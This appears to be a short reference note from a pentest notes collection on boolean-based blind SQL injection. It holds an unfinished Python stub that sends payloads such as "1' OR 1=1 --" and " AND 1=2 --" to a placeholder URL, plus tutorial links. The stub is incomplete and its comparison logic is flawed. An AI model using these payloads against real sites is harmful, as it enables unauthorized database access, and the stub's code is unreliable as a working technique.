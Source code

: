 # Boolean-Based Blind Query SQL Injection

This is just for reference but will be removed once the information is filled.

TODO: Write a python script to bruteforce queries in order to automate blind SQL injection

```python
# Check if the response contains a specific string when the condition is true
def boolean_based_blind_sql_injection(target_url, injection_payload):
    response_when_condition_true = send_request(target_url, injection_payload + " AND 1=1 --")
    response_when_condition_false = send_request(target_url, injection_payload + " AND 1=2 --")

    if "True Response String" in response_when_condition_true:
        return True  # The injected condition is true
    else:
        return False  # The injected condition is false

# Example usage
target_url = "https://example.com/vulnerable-page"
injection_payload = "1' OR 1=1 --"

result = boolean_based_blind_sql_injection(target_url, injection_payload)
print("Is the injected condition true?", result)
```

https://www.hackingarticles.in/beginner-guide-sql-injection-boolean-based-part-2/

http://securityidiots.com/Web-Pentest/SQL-Injection/Blind-SQL-Injection.html